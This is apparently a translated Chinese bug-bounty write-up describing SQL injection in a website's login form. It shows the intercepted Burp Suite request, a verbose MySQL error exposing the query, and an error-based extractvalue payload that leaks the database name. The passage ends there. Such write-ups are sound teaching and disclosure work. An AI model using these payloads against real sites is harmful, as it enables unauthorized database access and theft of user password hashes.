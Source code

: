 之所以这里会存在SQL注入漏洞，主要是因为**goodwebsite.com**的登录页面在处理用户的输入数据时，没有过滤掉其中可能存在的敏感字符，相当于他们直接将用户的输入数据插入到了一条或多条原始的SQL查询语句之中。通过使用这种攻击向量，攻击者可以从目标网站的数据库中获取到用户的密码哈希以及其他的数据。

因此，我在测试该网站登录页面的时候，我随机输入了一堆用户名和密码之后，用Burp Suite拦截下了浏览器发送的请求，然后把用户名改成了“**Test%27**”。修改完请求之后，我将该请求转发到了Burp Repeater，最后我得到了一个包含错误信息的响应。请求和响应的错误信息如下所示：



```
Request:POST /register-login/check.php HTTP/1.1
Content-Length: 76
Content-Type: application/x-www-form-urlencoded
Cookie: bmslogin=no; bmsid=f3011db015dca9a4f2377cd4e864f724
Host: goodwebsite.com
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
strLogin=Test%27&amp;strPassword=k

Response Error:
&lt;pre&gt;PDOException Object ( [message:protected] =&gt; SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near Test’ ‘ and `valid_id` = 1’ at line 1 [string:Exception:private] =&gt; [code:protected] =&gt; 42000 [file:protected] =&gt; /var/www/goodwebsite.server.com/register-login/send.php [line:protected] =&gt; 10 [trace:Exception:private] =&gt; Array ( [0] =&gt; Array ( [file] =&gt; /var/www/goodwebsite.server.com/register-login/send.php [line] =&gt; 10 [function] =&gt; query [class] =&gt; PDO [type] =&gt; -&gt; [args] =&gt; Array ( [0] =&gt; SELECT * FROM `wp_ggg_user` WHERE `login` = Test’e ‘ and `valid_id` = 1; ) [previous:Exception:private] =&gt; [errorInfo] =&gt; Array ( [0] =&gt; 42000 [1] =&gt; 1064 [2] =&gt; You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near Test’ ‘ and `valid_id` = 1’ at line 1 ) &lt;/pre&gt;
```

当我看到响应信息中的这些错误提示之后，我第一反应就是应该尝试一下其他的SQL查询语句，而我第一次测试所使用的查询语句如下所示：

```
Test%27and extractvalue(1,concat(0x00a,database()))or’
```

这一次服务器返回的错误信息与之前非常相似，但是响应信息的结尾部分却有一点点不一样…



```
[previous:Exception:private] =&gt;
 [errorInfo] =&gt; Array
 (
 [0] =&gt; HY000
 [1] =&gt; 1105
 [2] =&gt; XPATH syntax error: ‘
goodwebsite’
 )
```

因此，错误信息相当于已经把goodwebsite网站的数据库名称返回给我了：
